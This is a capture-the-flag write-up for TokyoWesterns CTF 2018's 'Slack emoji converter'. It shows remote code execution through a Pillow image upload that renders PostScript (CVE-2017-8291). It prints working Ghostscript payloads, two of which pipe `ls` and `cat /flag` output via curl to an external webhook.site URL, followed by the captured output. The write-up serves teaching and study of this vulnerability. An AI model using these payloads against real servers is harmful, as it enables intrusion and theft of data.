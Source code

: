 ```yaml
---
title: Slack emoji converter 
contest: TokyoWesterns CTF 4th 2018
authors: trupples
layout: writeup
---
```


## Proof of Flag
```
TWCTF{watch_0ut_gh0stscr1pt_everywhere}
```

## Summary
Exploiting an image upload form that doesn’t check the image type by sending it
postscript “images” which execute shell commands. See CVE-2017-8291.

## Proof of solving
I’m omitting the server code here but what it does is save the image you send it
to a temporary file and attempting to resize it to max 128x128 pixels using the
python library Pillow. I initially thought it might be a race condition
vulnerability because of the `mktemp` usage. If you send the server a regular
image, say a png, jpeg, gif, etc. image, it works as expected and it sends you
back that image scaled down.

The problem is the fact that Pillow has postscript support and will try to
render a postscript “image” if sent one. I recently say this post on twitter and
it was exactly what I needed:

https://twitter.com/chaignc/status/1032253548954877954

I downloaded the server source and started a local instance to which I sent this
malicious postscript file:

```
%!PS
%%BoundingBox: 0 0 74 35

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%notify-send “PWNED BOIII”) currentdevice putdeviceprops
showpage
```

And this popped up:

![Notification with "PWNED BOIII" content](./emoji/notif.jpg)

This is awesome! We have RCE. To send a payload we only need to replace the
command in the postscript file to something else and send it again. I quickly
set up a https://webhook.site instance and crafted this payload:

```
%!PS
%%BoundingBox: 0 0 74 35

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%curl -X POST https://webhook.site/9ef35d63-cd74-42da-ad5c-7e1f57cd7395 -d "`ls -hal`") currentdevice putdeviceprops
showpage
```

After uploading it I received this request:

```
total 20K
drwxr-xr-x 1 root root 4.0K Sep  1 14:56 .
drwxr-xr-x 1 root root 4.0K Sep  1 14:38 ..
-rw-r--r-- 1 root root 1.1K Sep  1 14:25 app.py
drwxr-xr-x 2 root root 4.0K Sep  1 14:56 templates
-rw-r--r-- 1 root root  135 Sep  1 07:17 uwsgi.ini
```

This confirms we have RCE :D Exciting stuff! The flag wasn’t in the same
directory and it took a bit of looking around until I found where it is located.
It’s in the filesystem root directory. Here’s the listing of `/`:

```
total 76K
drwxr-xr-x   1 root root 4.0K Sep  2 07:03 .
drwxr-xr-x   1 root root 4.0K Sep  2 07:03 ..
-rwxr-xr-x   1 root root    0 Sep  2 07:03 .dockerenv
drwxr-xr-x   1 root root 4.0K Jul 17 03:15 bin
drwxr-xr-x   2 root root 4.0K Jun 26 12:03 boot
drwxr-xr-x   5 root root  360 Sep  2 07:03 dev
drwxr-xr-x   1 root root 4.0K Sep  2 07:03 etc
-rw-r--r--   1 root root   39 Sep  1 14:41 flag
drwxr-xr-x   2 root root 4.0K Jun 26 12:03 home
drwxr-xr-x   1 root root 4.0K Jul 17 03:15 lib
drwxr-xr-x   2 root root 4.0K Jul 16 00:00 lib64
drwxr-xr-x   2 root root 4.0K Jul 16 00:00 media
drwxr-xr-x   2 root root 4.0K Jul 16 00:00 mnt
drwxr-xr-x   2 root root 4.0K Jul 16 00:00 opt
dr-xr-xr-x 148 root root    0 Sep  2 07:03 proc
drwx------   1 root root 4.0K Sep  1 14:36 root
drwxr-xr-x   1 root root 4.0K Sep  2 07:03 run
drwxr-xr-x   1 root root 4.0K Jul 17 03:13 sbin
drwxr-xr-x   1 root root 4.0K Sep  1 14:38 srv
dr-xr-xr-x  12 root root    0 Sep  2 07:03 sys
drwxrwxrwt   1 root root 4.0K Sep  2 10:01 tmp
drwxr-xr-x   1 root root 4.0K Jul 16 00:00 usr
drwxr-xr-x   1 root root 4.0K Jul 16 00:00 var
```

Now let’s `cat /flag` with this final payload:

```
%!PS
%%BoundingBox: 0 0 74 35

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%curl -X POST https://webhook.site/9ef35d63-cd74-42da-ad5c-7e1f57cd7395 -d "`cat /flag`") currentdevice putdeviceprops
showpage
```

The received flag is:
```
TWCTF{watch_0ut_gh0stscr1pt_everywhere}
```
